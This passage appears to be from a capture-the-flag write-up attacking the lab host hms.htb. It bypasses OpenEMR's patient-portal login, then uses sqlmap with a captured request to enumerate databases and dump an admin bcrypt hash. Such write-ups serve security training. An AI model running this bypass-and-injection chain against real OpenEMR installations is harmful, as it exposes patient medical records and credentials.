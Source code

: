 ```
```

There is one vulnerability that has our exact version listed for arbitrary file actions (linux/webapps/45202.txt). In the comments of the remote code execution vulnerability, it mentions that it was tested on our exact version (php/webapps/45161.py). The problem with both of these exploits is that they are authenticated and we have no working credentials.

If we do some sleuthing on Google, we find a [vulnerability report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) on OpenEMR v5.0.1.3. It mentions an authentication bypass for the patient portal which we have access to at http://hms.htb/portal. With this, we can access two other pages on the server which are vulnerable to SQL injection. This process is summarized nicely in a provided YouTube video for a [simulated attack](https://www.youtube.com/watch?v=DJSQ8Pk_7hc).

We will first bypass the login by going to the portal login page and then navigating to http://hms.htb/portal/add_edit_event_user.php. Since this page loaded, we know the bypass worked. Using Burp, we can get the headers for a simple request in order to pass on to `sqlmap`.

```
// openemr.req
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=cs0gf0qe0pd9fdm0ddue4f3m60; PHPSESSID=bh3ocs2nv3gq5k13k0ht2tjka2
Upgrade-Insecure-Requests: 1
```

```
# sqlmap -r openemr.req --threads=10 --dbs
...
available databases [2]:
[*] information_schema
[*] openemr
...
# sqlmap -r openemr.req -D openemr --tables
...
[22:01:43] [INFO] retrieved: 'users_secure'
...
# sqlmap -r openemr.req -D openemr -T users_secure --dump
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
...
```
